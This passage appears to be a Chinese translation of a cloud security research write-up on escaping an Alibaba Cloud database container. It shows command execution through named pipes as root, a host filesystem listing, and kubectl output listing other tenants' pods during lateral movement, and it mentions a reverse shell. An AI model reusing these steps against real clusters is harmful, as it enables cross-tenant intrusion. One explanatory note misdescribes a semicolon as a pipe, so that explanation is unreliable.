 我们也能够通过调用一个反向shell来避免使用共享的命名管道，因为主机允许向互联网发出出站连接。这是研究中的一个重大成就！  
  
关于如何利用API的更多信息，请参考这个指南。docker.sock  
  
https://docs.docker.com/engine/api/v1.40/  
```
# Code execution inside the new privileged container 
$: echo ‘id’ > /home/adbpgadmin/i_pipe; timeout 1 cat /home/adbpgadmin/o_pipe 
uid=0(root) gid=0(root) groups=10(wheel)
```  
> 1. 使用echo命令，输出’id’这个字符串，并用重定向符号（>）将它写入到/home/adbpgadmin/i_pipe这个文件中。如果这个文件不存在，就创建它；如果存在，就覆盖它的内容。2. 使用管道符号（|），将echo命令的输出也传递给后面的命令，即timeout 1 cat /home/adbpgadmin/o_pipe。3. 使用timeout命令，限制后面的命令在1秒内执行，否则终止它4. 使用cat命令，读取/home/adbpgadmin/o_pipe这个文件的内容，并将它输出到标准输出（屏幕）上。  
  
  
> 总之，这条命令的目的是在1秒内将’id’写入到i_pipe文件中，并将o_pipe文件中的内容显示出来。如果超过1秒，就停止执行。  
  
  
```
# Accessing the host filesystem from the new privileged container
$: echo ‘ls -alh /mnt’ > /home/adbpgadmin/i_pipe; timeout 2 cat /home/adbpgadmin/o_pipe 
total 88 
dr-xr-xr-x   23 root     root        4.0K Nov  6 10:07 . 
drwxr-xr-x    1 root     root        4.0K Nov  7 15:54 .. 
drwxr-x---    4 root     root        4.0K Nov  6 10:07 .kube 
lrwxrwxrwx    1 root     root           7 Aug 29  2019 bin -> usr/bin 
dr-xr-xr-x    5 root     root        4.0K Nov  2 10:21 boot 
drwxr-xr-x   17 root     root        3.1K Nov  6 10:08 dev 
drwxr-xr-x   84 root     root        4.0K Nov  6 10:08 etc 
drwxr-xr-x    3 root     root        4.0K Nov  2 10:24 flash 
drwxr-xr-x    6 root     root        4.0K Nov  6 10:11 home 
drwxr-xr-x    2 root     root        4.0K Nov  2 10:24 lafite 
lrwxrwxrwx    1 root     root           7 Aug 29  2019 lib -> usr/lib 
lrwxrwxrwx    1 root     root           9 Aug 29  2019 lib64 -> usr/lib64 
drwx------    2 root     root       16.0K Aug 29  2019 lost+found 
drwxr-xr-x    2 root     root        4.0K Dec  7  2018 media 
drwxr-xr-x    3 root     root        4.0K Nov  6 10:07 mnt 
drwxr-xr-x   11 root     root        4.0K Nov  6 10:07 opt 
dr-xr-xr-x  184 root     root           0 Nov  6 10:06 proc 
dr-xr-x---   10 root     root        4.0K Nov  6 10:07 root 
```  
####   
#### 从 K8s 横向移动到供应链攻击   
  
通过访问 K8s API 服务器，我们利用节点的kubelet凭证来检查各种集群资源，包括机密、服务帐户和 pod。  
  
在检查 pod 列表时，我们发现属于同一集群中其他租户的 pod。这表明阿里云为多租户设计了集群，这意味着我们有可能获得对这些 pod 的跨租户访问。     
```
# Listing the pods inside the K8s cluster
$: /tmp/kubectl get pods 
NAME                                                                       READY   STATUS      RESTARTS   AGE 
gp-4xo3*REDACTED*-master-100333536                                      1/1     Running     0          5d1h 
gp-4xo3*REDACTED*-master-100333537                                      1/1     Running     0          5d1h 
gp-4xo3*REDACTED*-segment-100333538                                     1/1     Running     0          5d1h 
gp-4xo3*REDACTED*-segment-100333539                                     1/1     Running     0          5d1h 
gp-4xo3*REDACTED*-segment-100333540                                     1/1     Running     0          5d1h 
gp-4xo3*REDACTED*-segment-100333541                                     1/1     Running     0          5d1h 
gp-gw87*REDACTED*-master-100292154                                      1/1     Running     0          175d 
gp-gw87*REDACTED*-master-100292155                                      1/1     Running     0          175d 
```